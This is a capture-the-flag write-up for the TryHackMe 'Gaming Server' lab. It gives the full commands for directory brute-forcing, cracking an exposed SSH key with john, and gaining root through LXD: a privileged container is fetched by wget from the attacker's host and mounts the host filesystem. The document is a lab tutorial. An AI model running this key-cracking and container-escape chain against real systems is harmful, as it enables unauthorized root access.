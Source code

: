 ```yaml
---
layout: post
title: Tryhackme - Gaming Server
date: 2020-11-25 19:00:00 +0000
category: [Tryhackme, Easy]
tags: [thm,linux,easy,lxd,boot2root]
---
```


---
Gaming server is a beginner level room in Tryhackme. The final objective is to get the user and root flag.

<br>
![cover_image](/assets/img/tryhackme/gamingserver/1.png)

**Author** | SuitGuy
**Description** | An Easy Boot2Root box for beginners.


<p>Deploy the VM and lets go.</p>

## <ins>Enumeration</ins>
---
Let's start with a nmap scan.
<br>
![nmap_scan](/assets/img/tryhackme/gamingserver/nmap_scan.png)
<br>
Only the ssh and the http ports are open. Let's check out the http service first.
<br>
![http_service](/assets/img/tryhackme/gamingserver/10.png)

In the source page I found this comment which tells us the username.
<br>
![username_identification](/assets/img/tryhackme/gamingserver/4.png)
<br>

Run gobuster to see if there are any hidden directories.
<br>
<pre>gobuster dir -u http://id-addr/ -w /usr/share/dirb/wordlists/common.txt</pre>
<br>
![gobuster_result](/assets/img/tryhackme/gamingserver/2.png)
<br>
I went to the ```/secret``` directory which is the most interesting of all and found the ssh private key.
<br>

![secretkey](/assets/img/tryhackme/gamingserver/3.png)
<br>
Just copy the contents of the file to your local machine.

Use ```ssh2john``` to convert it into hash.
<br>
<pre>/usr/share/john/ssh2john id_rsa > hash</pre>
<br>
And ```john``` to crack the password.
<br>
<pre>john --format=SSH hash ~/Wordlists/rockyou.txt</pre>
<br>
![privkey_pass](/assets/img/tryhackme/gamingserver/5.png)
<br>


## <ins>User flag</ins>
---
Without wait let's login to ssh.
<br>
<pre>ssh john@ip-addr -i id_rsa</pre>
<br>
![ssh_login](/assets/img/tryhackme/gamingserver/6.png)
<br>
Boom!! We got the user flag.

## <ins>Root flag</ins>
---
After some enumeration I found that the user ```john``` has ```lxd``` priviledges.
<br>
![id_enum](/assets/img/tryhackme/gamingserver/7.png)
<br>

I searched google for ```lxd priviledge escalation``` and found this amazing article from [hacking articles](https://www.hackingarticles.in/lxd-privilege-escalation/).

Just follow the steps. First, clone the github repository in your local machine
<br>
<pre>
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
</pre>
<br>
Then run the executable as root.
<pre>sudo ./build-alpine</pre>
<br>
A tar file will be generated. From your local machine open a python server.
<br>
<pre>python -m SimpleHTTPServer 8080</pre>
<br>
And download the file from the remote machine using wget.
<br>
<pre>wget http://your-vpn-ip:8080/tar-file-name</pre>
<br>

Then run the following commands.
<pre>
lxc image import ./tar-file-name --alias myimage
lxc image list
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
</pre>

<br>
![root_shell](/assets/img/tryhackme/gamingserver/8.png)
<br>
The root flag can be found in the ```/mnt/root/root``` directory.

<br>
![root_flag](/assets/img/tryhackme/gamingserver/9.png)
<br>

Box rooted!!

That's it folks. Happy hacking!!!
